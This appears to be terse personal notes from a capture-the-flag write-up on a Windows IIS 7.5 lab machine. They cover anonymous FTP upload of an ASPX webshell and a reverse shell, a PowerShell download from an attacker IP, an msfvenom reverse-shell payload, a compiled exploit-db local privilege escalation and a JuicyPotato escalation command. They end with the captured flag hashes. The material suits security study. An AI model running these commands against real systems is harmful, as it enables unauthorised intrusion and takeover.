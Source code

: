 #windows #manual #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.5 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 16:09 EDT
Nmap scan report for 10.10.10.5
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.94 seconds

```

### Enumeration


##### 21
FTP anonymous![Image](/assets/Screenshot 2024-09-09 at 4.29.40 PM.png)
big nono cve![Image](/assets/Screenshot 2024-09-09 at 4.41.32 PM.png)
FTP upload![Image](/assets/Screenshot 2024-09-09 at 6.25.26 PM.png)
ASP/X vulnerability upon research of version
webshell prompt!![Image](/assets/Screenshot 2024-09-09 at 6.26.19 PM.png)
nishang shell served bby python server (Invokerevtcp)

version information![Image](/assets/Screenshot 2024-09-09 at 6.58.49 PM.png)
Local privesc to fit our needs
![Image](/assets/Screenshot 2024-09-09 at 7.02.07 PM.png)
Compiling notes in exploit db![Image](/assets/Screenshot 2024-09-09 at 7.04.56 PM.png)
update and install mingw-w64
compile `i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32`
push from box to target `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:80/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"`

##### 80
Landing Page ![Image](/assets/Screenshot 2024-09-09 at 4.27.54 PM.png)
Microsoft IIS server 7.5
upload aspx and set up listener
make and move to temp dir to transfer juicy potato and revshell (rev shell `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=9999 -f exe > reverse.exe`)

move files with certutil

set up listener for higher priv shell
use JP to escalate `jp.exe -l 9999 -p rev.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}`. Make sur eto use x86 for this box, as its 32 bit.

Boom ![Image](/assets/Screenshot 2024-10-04 at 9.30.24 PM.png)

USER:aeb10d6e0f12af213b3313aaf5d006a3

ROOT:e4c733d153de83f5cb330af1ebc6470e
USER: e1b33ec1245ae20d092a935b35203c7e



